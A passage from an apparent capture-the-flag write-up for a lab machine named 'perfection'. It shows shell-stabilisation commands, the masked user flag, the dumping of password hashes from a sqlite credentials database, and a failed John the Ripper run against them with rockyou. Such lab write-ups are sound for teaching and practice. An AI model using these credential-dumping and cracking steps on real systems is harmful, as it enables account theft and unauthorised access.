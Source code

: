 * ``script /dev/null -c bash``: Spawns a tty
* ``ctrl+z``: puts the shell in background for later doing a treatment
* ``stty raw -echo; fg``: give us the shell back again
* ``reset xterm``: resets the terminal to give us the bash console
* ``export TERM=xterm``: let us do ctrl+l to clean the terminal
* ``export SHELL=bash``: specifies the system that we are using a bash console

And we can see user.txt:

```bash
susan@perfection:~/ruby_app$ cd ~
susan@perfection:~$ cat user.txt 
5f****************************3e
```

# Privilege escalation to root

In the Migration directory, we have a sqlite database where we can extract some hashes:

```bash
susan@perfection:~$ cd Migration/
susan@perfection:~/Migration$ ls
pupilpath_credentials.db
susan@perfection:~/Migration$ sqlite3 pupilpath_credentials.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite>
```

```bash
sqlite> .tables
users
sqlite> select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

This hashes are SHA256. However they are not crackable with rockyou:

```bash
❯ cat hashes.txt
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: hashes.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ susan:abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
   2   │ tina:dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
   3   │ harry:d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
   4   │ david:ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
   5   │ stephen:154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ john -w=/usr/share/wordlists/rockyou.txt hashes.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 5 password hashes with no different salts (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 DONE (2024-07-06 17:13) 0g/s 12693Kp/s 12693Kc/s 63466KC/s -sevim-..*7¡Vamos!
Session completed. 
```
